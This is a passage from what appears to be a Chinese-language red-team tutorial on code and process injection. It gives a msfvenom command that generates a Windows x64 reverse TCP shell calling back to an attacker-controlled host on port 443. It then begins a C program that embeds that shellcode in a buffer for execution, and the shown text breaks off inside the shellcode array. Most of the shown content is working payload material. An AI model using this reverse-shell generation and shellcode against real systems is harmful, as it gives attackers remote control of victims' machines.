 ```yaml
---
title: 代码与进程注入
date: 2023-07-14 09:41:04
tags:
categories:
- 红队
---
```






## 远线程shellcode 注入

### 在本地进程中执行Shellcode

首先是一个简单的测试，测试如何直接从c++程序中执行shellcode。
为反向shell生成shellcode:

LHOST是你自己kali的ip

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```

```c

#include "Windows.h"

int main()
{
	unsigned char buf[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\xa1\x88\x82\x73\xee\xc2\xdd\x4e\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x5d\xc0\x01"
		"\x97\x1e\x2a\x1d\x4e\xa1\x88\xc3\x22\xaf\x92\x8f\x1f\xf7"
		"\xc0\xb3\xa1\x8b\x8a\x56\x1c\xc1\xc0\x09\x21\xf6\x8a\x56"
		"\x1c\x81\xc0\x09\x01\xbe\x8a\xd2\xf9\xeb\xc2\xcf\x42\x27"
		"\x8a\xec\x8e\x0d\xb4\xe3\x0f\xec\xee\xfd\x0f\x60\x41\x8f"
		"\x32\xef\x03\x3f\xa3\xf3\xc9\xd3\x3b\x65\x90\xfd\xc5\xe3"
		"\xb4\xca\x72\x3e\x49\x5d\xc6\xa1\x88\x82\x3b\x6b\x02\xa9"
		"\x29\xe9\x89\x52\x23\x65\x8a\xc5\x0a\x2a\xc8\xa2\x3a\xef"
		"\x12\x3e\x18\xe9\x77\x4b\x32\x65\xf6\x55\x06\xa0\x5e\xcf"
		"\x42\x27\x8a\xec\x8e\x0d\xc9\x43\xba\xe3\x83\xdc\x8f\x99"
		"\x68\xf7\x82\xa2\xc1\x91\x6a\xa9\xcd\xbb\xa2\x9b\x1a\x85"
		"\x0a\x2a\xc8\xa6\x3a\xef\x12\xbb\x0f\x2a\x84\xca\x37\x65"
		"\x82\xc1\x07\xa0\x58\xc3\xf8\xea\x4a\x95\x4f\x71\xc9\xda"
		"\x32\xb6\x9c\x84\x14\xe0\xd0\xc3\x2a\xaf\x98\x95\xcd\x4d"
		"\xa8\xc3\x21\x11\x22\x85\x0f\xf8\xd2\xca\xf8\xfc\x2b\x8a"
		"\xb1\x5e\x77\xdf\x3a\x50\xb5\xae\x7c\xfe\xbb\xb0\x73\xee"
		"\x83\x8b\x07\x28\x6e\xca\xf2\x02\x62\xdc\x4e\xa1\xc1\x0b"
		"\x96\xa7\x7e\xdf\x4e\xa0\x33\x42\xdb\xac\x40\x9c\x1a\xe8"
		"\x01\x66\x3f\x67\x33\x9c\xf4\xed\xff\xa4\x74\x11\x17\x91"
		"\xc7\x4b\xe0\x83\x72\xee\xc2\x84\x0f\x1b\xa1\x02\x18\xee"
		"\x3d\x08\x1e\xf1\xc5\xb3\xba\xa3\xf3\x1d\x06\x5e\x48\xca"
		"\xfa\x2c\x8a\x22\x8e\xe9\x01\x43\x32\x54\x28\xd2\x91\x41"
		"\x77\x57\x3b\x67\x05\xb7\x5e\xe0\xd0\xce\xfa\x0c\x8a\x54"
		"\xb7\xe0\x32\x1b\xd6\x9a\xa3\x22\x9b\xe9\x09\x46\x33\xec"
		"\xc2\xdd\x07\x19\xeb\xef\x17\xee\xc2\xdd\x4e\xa1\xc9\xd2"
		"\x32\xbe\x8a\x54\xac\xf6\xdf\xd5\x3e\xdf\x02\xb7\x43\xf8"
		"\xc9\xd2\x91\x12\xa4\x1a\x0a\x85\xdc\x83\x72\xa6\x4f\x99"
		"\x6a\xb9\x4e\x82\x1b\xa6\x4b\x3b\x18\xf1\xc9\xd2\x32\xbe"
		"\x83\x8d\x07\x5e\x48\xc3\x23\xa7\x3d\x15\x03\x28\x49\xce"
		"\xfa\x2f\x83\x67\x37\x6d\xb7\x04\x8c\x3b\x8a\xec\x9c\xe9"
		"\x77\x48\xf8\xe0\x83\x67\x46\x26\x95\xe2\x8c\x3b\x79\x2d"
```